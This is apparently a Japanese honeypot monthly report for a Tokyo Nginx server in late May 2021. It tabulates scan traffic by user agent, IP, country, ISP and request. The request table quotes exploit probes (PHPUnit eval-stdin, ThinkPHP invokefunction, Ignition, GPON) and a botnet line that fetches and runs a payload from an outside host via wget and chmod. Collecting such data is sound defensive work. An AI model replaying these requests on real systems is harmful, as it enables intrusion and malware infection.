

Honeypot Monthly Report
期間
2021.05.16 - 2021.05.31
環境
アプリケーション : Nginx
プラットフォーム : Vultr
場所 : 東京
サーバー台数 : 1台
検知件数
期間中の検知件数の合計は2346回になります。

ユーザーエージェント
検知件数が10回以上のユーザーエージェントを記載しています。
| Number of Attack | User Agent |
|---|---|
| 523 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36 |
| 444 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 |
| 156 | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36 |
| 82 | Mozilla/5.0 zgrab/0.x |
| 75 | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 |
| 70 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36 |
| 56 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36 |
| 31 | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0 |
| 25 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 |
| 24 | ZmEu |
| 21 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0 |
| 20 | Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0 |
| 18 | python-requests/2.25.1 |
| 18 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36 |
| 18 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36 |
| 18 | lkxscan/v0.1.0 (+https://leakix.net) l9explore/v1.0.0 (+https://github.com/LeakIX/l9explore) |
| 17 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 |
| 17 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:77.0) Gecko/20100101 Firefox/77.0 |
| 16 | Mozilla/5.0 (Windows; U; Windows NT 6.0;en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6) |
| 16 | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.62 Safari/537.36 |
| 15 | Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36 |
| 14 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36 |
| 13 | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0 |
| 13 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36 |
| 13 | Hello, World |
| 11 | Pe7kata |
| 11 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36 |
| 11 | Hello, world |
接続元IPアドレス
検知件数が50回以上のIPアドレスを記載しています。
| Number of Attack | IP Address | # | # | # |
|---|---|---|---|---|
| 259 | 45.146.164[.]125 | VirusTotal | urlscan | AbuseIPDB |
| 154 | 37.136.246[.]188 | VirusTotal | urlscan | AbuseIPDB |
| 140 | 45.155.205[.]181 | VirusTotal | urlscan | AbuseIPDB |
| 122 | 34.220.107[.]44 | VirusTotal | urlscan | AbuseIPDB |
| 122 | 140.238.86[.]108 | VirusTotal | urlscan | AbuseIPDB |
| 116 | 103.144.15[.]178 | VirusTotal | urlscan | AbuseIPDB |
| 93 | 138.68.231[.]120 | VirusTotal | urlscan | AbuseIPDB |
地域
接続元IPアドレスから地域の特定は、IP Geolocation API を使用しています。

| Number of Attack | Continent |
|---|---|
| 1277 | Europe |
| 701 | North America |
| 349 | Asia |
| 15 | South America |
| 3 | Oceania |
| 1 | Africa |
国名
検知件数が10回以上の国名を記載しています。
接続元IPアドレスから国名の特定は、IP Geolocation API を使用しています。
| Number of Attack | Country |
|---|---|
| 632 | United States |
| 517 | Russia |
| 162 | United Kingdom |
| 154 | Finland |
| 147 | Netherlands |
| 138 | Germany |
| 122 | Indonesia |
| 90 | France |
| 63 | Singapore |
| 58 | Canada |
| 56 | Vietnam |
| 49 | India |
| 26 | Republic of Korea |
| 14 | Taiwan |
| 13 | Brazil |
| 12 | Kosovo |
| 10 | Sweden |
| 10 | Poland |
| 10 | Japan |
| 10 | Bulgaria |
インターネット・サービス・プロバイダ
検知件数が10回以上のISPを記載しています。
接続元IPアドレスからISPの特定は、IP Geolocation API を使用しています。
| Number of Attack | Internet Service Provider |
|---|---|
| 469 | OOO "Network of data-centers "Selectel" |
| 344 | DigitalOcean, LLC |
| 164 | Amazon.com, Inc. |
| 154 | DNA Oyj |
| 122 | Oracle Corporation |
| 116 | PT.Indonesia Comnets Plus |
| 76 | Linode, LLC |
| 67 | Microsoft Corporation |
| 63 | Amazon Technologies Inc. |
| 42 | BOUYGUES Telecom |
| 40 | Alibaba.com LLC |
| 38 | Vietnam Posts and Telecommunications Group |
| 33 | FranTech Solutions |
| 23 | OVH Hosting |
| 23 | Online S.A.S. |
| 22 | RIVIERA TELECOM LTD |
| 22 | Deutsche Telekom AG |
| 20 | Romanenko Stanislav Sergeevich |
| 19 | OVH SAS |
| 19 | Google LLC |
| 18 | VietNam National University |
| 18 | Serverius |
| 18 | Alviva Holding Limited |
| 17 | Contabo GmbH |
| 16 | ColoCrossing |
| 16 | Amsio B.V. |
| 14 | Zenlayer Inc |
| 14 | CariNet, Inc. |
| 13 | Telekomi i Kosoves SH.A. |
| 13 | Des Capital B.V. |
| 12 | Petersburg Internet Network ltd. |
| 12 | AT&T Corp |
| 11 | IP Volume inc |
| 10 | Tencent Cloud Computing (Beijing) Co |
リクエスト
検知件数が10回以上のリクエストを記載しています。
| Number of Attack | Request |
|---|---|
| 157 | GET /phpmyadmin/ HTTP/1.1 |
| 95 | GET /wp-login.php HTTP/1.1 |
| 91 | GET /index.php/PHP%0Ais_the_shittiest_lang.php?QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ |
| 91 | GET /.env HTTP/1.1 |
| 50 | POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1 |
| 49 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1 |
| 48 | POST /api/jsonws/invoke HTTP/1.1 |
| 48 | GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1 |
| 47 | GET /wp-content/plugins/wp-file-manager/readme.txt HTTP/1.1 |
| 46 | GET /_ignition/execute-solution HTTP/1.1 |
| 46 | GET /console/ HTTP/1.1 |
| 45 | POST /Autodiscover/Autodiscover.xml HTTP/1.1 |
| 31 | GET /config/getuser?index=0 HTTP/1.1 |
| 24 | POST /mifs/.;/services/LogService HTTP/1.1 |
| 24 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1 |
| 24 | GET /solr/admin/info/system?wt=json HTTP/1.1 |
| 24 | GET /?a=fetch&content= |
| 20 | GET /owa/auth/logon.aspx?url=https%3a%2f%2f1%2fecp%2f HTTP/1.1 |
| 20 | Pg)�� |
| 19 | GET /blog/wp-login.php HTTP/1.1 |
| 18 | GET /wp/wp-login.php HTTP/1.1 |
| 18 | GET /wordpress/wp-login.php HTTP/1.1 |
| 18 | GET /owa/ HTTP/1.1 |
| 18 | GET /actuator/health HTTP/1.1 |
| 16 | GET /system_api.php HTTP/1.1 |
| 14 | GET /0bef HTTP/1.0 |
| 13 | POST /GponForm/diag_Form?images/ HTTP/1.1 |
| 13 | POST /boaform/admin/formLogin HTTP/1.1 |
| 12 | GET /ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application HTTP/1.1 |
| 12 | /*�Cookie: mstshash=Administr |
| 11 | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\/45.14.149[.]244/arm7;chmod+777+arm7;./arm7+starcam;wget+http:/\/45.14.149[.]244/arm;chmod+777+arm;./arm+starcam HTTP/1.1 |
| 10 | GET /administrator/phpmyadmin/index.php?lang=en HTTP/1.1 |
ログ
HoneypotData/nginx/2021/2021-05 at main · blackle0pard/HoneypotData · GitHub